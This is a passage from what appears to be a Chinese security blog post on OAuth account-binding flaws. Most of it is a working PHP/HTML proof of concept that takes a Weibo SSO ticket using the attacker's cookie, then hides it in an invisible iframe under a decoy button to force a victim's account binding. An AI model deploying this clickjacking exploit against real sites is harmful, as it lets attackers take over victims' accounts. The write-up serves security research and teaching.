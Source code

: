 没有state参数验证的，那么你可以直接以此作为绑定链接，**覆盖场景1中PoC里面的这个链接**:`https://gh0st.cn/oauth/weibo/redirect`

好了，说了那么多跟场景2没用的话，切入主题来说说场景2的情况到底该如何完成攻击？

很简单我们可以使用点击劫持来完成攻击，如下动态的PoC：

```php+HTML
<?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket={$res[1]}&ssosavestate=1556602678";
?>

<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 70px;
    height: 22px;
    left: 167px;
    right: 0;
    display:block;
    top: 295px;
} 
</style>
</head>
<body>
<div class="testframe">
    <input type="button" class="btn" value="Click">
	<iframe id="test0" src="<?php echo $url;?>"></iframe>
</div>
<script>
function loadsrc(){
	document.getElementById("test0").src="https://gh0st.cn/usercenter/ubind";
}
setTimeout("loadsrc()",2000);
</script>
```